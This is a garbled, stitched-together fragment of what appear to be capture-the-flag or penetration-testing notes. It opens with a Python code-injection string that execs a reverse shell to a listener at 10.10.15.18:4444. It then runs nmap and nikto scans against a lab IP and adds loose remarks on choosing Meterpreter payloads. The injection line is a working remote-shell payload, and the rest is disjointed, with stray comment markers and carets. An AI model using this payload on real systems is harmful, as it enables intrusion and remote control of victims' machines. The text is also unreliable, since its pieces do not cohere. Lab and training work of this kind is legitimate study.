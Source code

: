 
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.15.18',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

<!-- Omit 
Next scan is targeted towards port 80 (HTTP)

Both of these scans can scan for vulnerabilities for port 80 (HTTP) web server & discover hidden directories. 
nmap -p 80 --script=http-enum 10.10.11.208
– -p 80: this command instructs Nmap to perform a basic scan on port 80 (-p 80) of the target IP address 10.10.11.208. 
– --script=http-enum: this script is used to enumerate and gather information about directories and files on the web server.
nikto -h 10.10.11.208 

     (Nikto is a widely used open-source web vulnerability scanner that helps identify potential security vulnerabilities and misconfigurations in web servers)

– -h: flag specifies the target hostname or IP address that Nikto will scan.--->             
               show modules
               msfvenom
               meterpreter


Your decision on which version of Meterpreter to use will be mostly based on three factors;

    The target operating system (Is the target operating system Linux or Windows? Is it a Mac device? Is it an Android phone? etc.)
    Components available on the target system (Is Python installed? Is this a PHP website? etc.)
    Network connection types you can have with the target system (Do they allow raw TCP connections? Can you only have an HTTPS reverse connection? Are IPv6 addresses not as closely monitored as IPv4 addresses? etc.) 


run the scan ^
^^